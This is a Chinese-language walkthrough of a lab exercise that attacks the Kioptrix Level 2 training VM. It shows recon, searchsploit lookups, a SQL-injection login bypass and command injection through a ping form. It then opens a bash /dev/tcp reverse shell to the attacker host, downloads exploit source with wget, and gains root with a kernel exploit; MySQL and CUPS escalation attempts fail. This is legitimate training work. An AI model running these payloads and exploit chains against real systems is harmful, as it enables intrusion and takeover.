


# NJU Net Lab 2 Walkthrough

!!! note "靶机：VulnHub Kioptix Level 2"

<!-- more -->

靶机运行在 192.168.56.3。我们开始

## 信息收集与分析

我们用 nmap 分析（仅保留关键部分）

```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)

80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)

111/tcp  open  rpcbind  2 (RPC #100000)

443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)

631/tcp  open  ipp      CUPS 1.1
|_http-title: 403 Forbidden
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1

3306/tcp open  mysql    MySQL (unauthorized)
```

注意到运行了一个 CUPS 1.1，可以考虑尝试一下。如果不行的话可以尝试一下 Apache；SQL 这里直接返回了 unauthorized，大概率是没办法。现在先尝试 CUPS。

## 尝试用 CUPS 进行攻击

首先 searchsploit

```
$ searchsploit CUPS 1.1
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
CUPS 1.1.x - Cupsd Request Method Denial of Serv | linux/dos/22619.txt
CUPS 1.1.x - '.HPGL' File Processor Buffer Overf | linux/remote/24977.txt
CUPS 1.1.x - Negative Length HTTP Header         | linux/remote/22106.txt
CUPS 1.1.x - UDP Packet Remote Denial of Service | linux/dos/24599.txt
CUPS < 1.3.8-4 - Local Privilege Escalation      | multiple/local/7550.c
CUPS < 2.0.3 - Multiple Vulnerabilities          | multiple/remote/37336.txt
CUPS < 2.0.3 - Remote Command Execution          | linux/remote/41233.py
CUPS Server 1.1 - GET Denial of Service          | linux/dos/1196.c
------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

看一下应该只有 41233 方便尝试。那就试一下（省略了输出中的 logo）

```
$ searchsploit -m 41233
  Exploit: CUPS < 2.0.3 - Remote Command Execution
      URL: https://www.exploit-db.com/exploits/41233
     Path: /usr/share/exploitdb/exploits/linux/remote/41233.py
    Codes: CVE-2015-1158
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/sprite/net-lab/lab4/assets/cups/41233.py

$ python2 41233.py 

python script.py <args>
   -h, --help:             Show this message
   -a, --rhost:            Target IP address
   -b, --rport:            Target IPP service port
   -c, --lib               /path/to/payload.so
   -f, --stomp-only        Only stomp the ACL (no postex)

Examples:
python script.py -a 10.10.10.10 -b 631 -f
python script.py -a 10.10.10.10 -b 631 -c /tmp/x86reverseshell.so

$ python2 41233.py -a 192.168.56.3 -b 631

[*]     locate available printer
[-]     no printers
```

发现没有 printer，说明这条路走不通，换一条。

不过上面 searchsploit 注意到有一个 local 的 C 脚本，可能在后面可以用到。

## 尝试用 Apache 进行攻击

先 searchsploit

```
$ searchsploit Apache 2.0.52 | grep remote
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Re | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c'  | unix/remote/47080.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c'  | unix/remote/764.c
Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote | php/remote/29290.c
Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Ex | php/remote/29316.py
Apache Struts < 1.3.10 / < 2.3.16.2 - ClassLoade | multiple/remote/41690.rb
Apache Struts 2.0.0 < 2.2.1.1 - XWork 's:submit' | multiple/remote/35735.txt
Apache Struts 2.0.1 < 2.3.33 / 2.5 < 2.5.10 - Ar | multiple/remote/44556.py
Apache Struts < 2.2.0 - Remote Command Execution | multiple/remote/17691.rb
Apache Tomcat < 5.5.17 - Remote Directory Listin | multiple/remote/2061.txt
Apache Tomcat < 6.0.18 - 'utf8' Directory Traver | multiple/remote/6229.txt
Apache Tomcat < 6.0.18 - 'utf8' Directory Traver | unix/remote/14489.c
Webfroot Shoutbox < 2.32 (Apache) - Local File I | linux/remote/34.pl
```

发现好像靶机的 Apache 没有一些其他的东西，不太好利用。那我们尝试直接访问一下网页，发现是一个登陆窗口。尝试一下 SQL 注入，输入 `admin' OR '1'='1`



于是登陆成功，看到了一个 ping 的界面。



猜测可以直接运行代码，我们输入 `;id` 就跳转到了一个新的页面，返回了

```
uid=48(apache) gid=48(apache) groups=48(apache)
```

接下来我们 Getshell，方便操作。在本机开一个 listener `nc -lvnp 4444`，然后在 ping 的地方输入 `;bash -i >& /dev/tcp/192.168.56.1/4444 0>&1` 即可。

```
bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-3.00$ cat /etc/redhat-release
CentOS release 4.5 (Final)
```

那我们可以尝试一下用靶机上的其他程序来进行提权，比如 MySQL 和 CUPS。不过更方便的可能是先尝试利用内核漏洞。

## 尝试利用 CentOS 内核漏洞提权

直接搜索

```
$ searchsploit CentOS 4.5
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Co | linux/local/9479.c
Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS  | linux_x86/local/9542.c
Linux Kernel 3.14.5 (CentOS 7 / RHEL) - 'libfute | linux/local/35370.c
------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

试一下 9542

```
# 在 Kali 上
$ searchsploit -m 9542
  Exploit: Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)
      URL: https://www.exploit-db.com/exploits/9542
     Path: /usr/share/exploitdb/exploits/linux_x86/local/9542.c
    Codes: CVE-2009-2698
 Verified: True
File Type: C source, ASCII text
Copied to: /home/sprite/net-lab/lab4/assets/centos/9542.c
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

# 在靶机上
bash-3.00$ cd /tmp
bash-3.00$ wget 192.168.56.1:8000/9542.c
bash-3.00$ gcc 9542.c
bash-3.00$ ./a.out
[-] exploit failed, try again
```

结果失败了（我不知道为什么会失败，好像我周围的人都成功了。怀疑是不同的虚拟机软件导致了些许差异），那我们再试一下 9479

```
# 在 Kali 上
$ searchsploit -m 9479
  Exploit: Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / Whitebox 4 / CentOS 4) - 'sock_sendpage()' Ring0 Privilege Escalation (5)
      URL: https://www.exploit-db.com/exploits/9479
     Path: /usr/share/exploitdb/exploits/linux/local/9479.c
    Codes: CVE-2009-2692, OSVDB-56992
 Verified: True
File Type: C source, ASCII text
Copied to: /home/sprite/net-lab/lab4/assets/centos/9479.c
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

# 在靶机上
bash-3.00$ wget 192.168.56.1:8000/9479.c
bash-3.00$ gcc 9479.c
9479.c:130:28: warning: no newline at end of file
bash-3.00$ ./a.out
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
```

就提权成功了。接下来我们可以尝试一下其他的提权方法，首先试一下 MySQL。

## 尝试利用 MySQL 进行提权

首先在 shell 获得 MySQL 的 版本

```
bash-3.00$ mysql -V
mysql  Ver 14.7 Distrib 4.1.22, for redhat-linux-gnu (i686) using readline 4.3
```

然后搜一下

```
$ searchsploit MySQL 4 | grep remote
Asterisk 'asterisk-addons' 1.2.7/1.4.3 - CDR_ADDON_MY | linux/remote/30677.pl
MySQL 3.23.x/4.0.x - 'COM_CHANGE_USER' Password Lengt | unix/remote/22084.c
MySQL 3.23.x/4.0.x - COM_CHANGE_USER Password Memory  | unix/remote/22085.txt
MySQL 3.23.x/4.0.x - Remote Buffer Overflow           | linux/remote/98.c
MySQL 3.x/4.x - ALTER TABLE/RENAME Forces Old Permiss | linux/remote/24669.txt
MySQL 4.1.18/5.0.20 - Local/Remote Information Leakag | linux/remote/1742.c
MySQL 4.1/5.0 - Authentication Bypass                 | multiple/remote/24250.pl
MySQL 4.1/5.0 - Zero-Length Password Authentication B | multiple/remote/311.pl
MySQL 4/5 - SUID Routine Miscalculation Arbitrary DML | linux/remote/28398.txt
MySQL 4.x/5.0 (Windows) - User-Defined Function Comma | windows/remote/3274.txt
MySQL 4.x - CREATE FUNCTION Arbitrary libc Code Execu | multiple/remote/25209.pl
MySQL 4.x - CREATE FUNCTION mysql.func Table Arbitrar | multiple/remote/25210.php
MySQL 4.x - CREATE Temporary TABLE Symlink Privilege  | multiple/remote/25211.c
MySQL 5.0.18 - Query Logging Bypass                   | linux/remote/27326.txt
MySQL 5.0.20 - COM_TABLE_DUMP Memory Leak/Remote Buff | linux/remote/1741.c
MySQL 5.1/5.5 (Windows) - 'MySQLJackpot' Remote Comma | windows/remote/23073.txt
MySQL 5 - Command Line Client HTML Special Characters | linux/remote/32445.txt
MySQL 6.0 yaSSL 1.7.5 - Hello Message Buffer Overflow | linux/remote/9953.rb
MySQL - Authentication Bypass                         | multiple/remote/19092.py
MySQLDriverCS 4.0.1 - SQL Injection                   | multiple/remote/35892.txt
MySQL MaxDB Webtool 7.5.00.23 - Remote Stack Overflow | windows/remote/960.c
MySQL - Remote User Enumeration                       | multiple/remote/23081.pl
MySQL - 'Stuxnet Technique' Windows Remote System     | windows/remote/23083.txt
MySQL - yaSSL CertDecoder::GetName Buffer Overflow (M | linux/remote/16850.rb
MySQL yaSSL (Linux) - SSL Hello Message Buffer Overfl | linux/remote/16849.rb
MySQL yaSSL (Windows) - SSL Hello Message Buffer Over | windows/remote/16701.rb
Oracle MySQL < 5.1.50 - Privilege Escalation          | multiple/remote/34796.txt
Oracle MySQL / MariaDB - Insecure Salt Generation Sec | linux/remote/38109.pl
PHP 4.x/5.x MySQL Library - 'Safe_mode' Filesystem Ci | php/remote/21264.php
PHP 4.x/5.x MySQL Library - 'Safe_mode' Filesystem Ci | php/remote/21265.php
PHP 4.x/5.x MySQL Library - 'Safe_mode' Filesystem Ci | php/remote/21266.php
Plixer Scrutinizer NetFlow and sFlow Analyzer 9 - Def | windows/remote/20355.rb
ProFTPd - 'mod_mysql' Authentication Bypass           | multiple/remote/8037.txt
Zend Framework 1.11.4 - 'PDO_MySql' Security Bypass   | linux/remote/35784.php
```

发现应该是要用 User-Defined Function 来提权，比如 25211。

首先我们可以在 `index.php` 找到账号密码是 `john` 和 `hiroshima`，然后我们尝试一下行不行

```
# 在 Kali 上
$ searchsploit -m 25211
  Exploit: MySQL 4.x - CREATE Temporary TABLE Symlink Privilege Escalation
      URL: https://www.exploit-db.com/exploits/25211
     Path: /usr/share/exploitdb/exploits/multiple/remote/25211.c
    Codes: CVE-2005-0711, OSVDB-14676
 Verified: True
File Type: C source, ASCII text
Copied to: /home/sprite/net-lab/lab4/assets/mysql/25211.c

# 在靶机上
bash-3.00$ cd /tmp
bash-3.00$ wget 192.168.56.1:8000/25211.c
bash-3.00$ gcc -g -c 25211.c
bash-3.00$ gcc -g -shared -W1,-soname,raptor_udf2.so -o raptor_udf2.so 25211.o -lc
bash-3.00$ mysql -u john -p
Enter password: hiroshima
show grants;
exit
Grants for john@localhost
GRANT SELECT, INSERT, UPDATE, DELETE ON *.* TO 'john'@'localhost' IDENTIFIED BY PASSWORD '5a6914ba69e02807'
```

权限好像不够。我们尝试用相同密码发现也可以登陆 MySQL 的 root 账户，再试一下

```
bash-3.00$ mysql -u root -p
Enter password: hiroshima
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
ERROR 1 (HY000) at line 2: Can't create/write to file '/usr/lib/raptor_udf2.so' (Errcode: 13)
bash-3.00$ ps aux | grep mysql
root      2941  0.0  0.1  6172 1236 ?        S    08:23   0:00 /bin/sh /usr/bin/mysqld_safe --datadir=/var/lib/mysql --socket=/var/lib/mysql/mysql.sock --err-log=/var/log/mysqld.log --pid-file=/var/run/mysqld/mysqld.pid
mysql     2983  0.0  1.8 127620 18964 ?      Sl   08:23   0:00 /usr/libexec/mysqld --basedir=/usr --datadir=/var/lib/mysql --user=mysql --pid-file=/var/run/mysqld/mysqld.pid --skip-external-locking --socket=/var/lib/mysql/mysql.sock
```

好吧还是没有权限，看了一下 MySQL 并不是用 root 启动的，那么这条路可能走不通了。然后可以再试一下 CUPS。

## 尝试利用 CUPS 进行提权

在前面看到有个 local 脚本是 7550，下下来试一下

```
# 在 Kali
$ searchsploit -m 7550
  Exploit: CUPS < 1.3.8-4 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/7550
     Path: /usr/share/exploitdb/exploits/multiple/local/7550.c
    Codes: CVE-2008-5377, OSVDB-50637
 Verified: True
File Type: C source, ASCII text
Copied to: /home/sprite/net-lab/lab4/assets/cups/7550.c

$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

# 在靶机
bash-3.00$ wget 192.168.56.1:8000/7550.c
bash-3.00$ gcc 7550.c
bash-3.00$ ./a.out
lp: error - no default destination available.
error: could not print /tmp/cve-2008-5377.ps
```

好吧也不行，还是没有 printer，那可能没其他方法了。

## 总结

尝试了很多方法，但是很多都不行，说明一般情况肯定是不会像上一个靶机那样一帆风顺的，尝试进行攻击肯定是会有一大堆乱七八糟的问题。

发现和各种应用程序的漏洞相比，还是内核漏洞更容易被利用。应用程序的漏洞总是需要你满足较为苛刻的条件，但是有不少内核漏洞都是直接就可以解决。所以在已经 Getshell 之后可以先尝试使用内核漏洞。

后续我又使用 ds 找了一个小时漏洞，并没有找到内核漏洞以外的其他漏洞。这也说明，对于比较老的系统，我们应该先考虑内核漏洞进行提权。（当然，现在的新系统也有一堆漏洞可以用了，比如 copyfail）
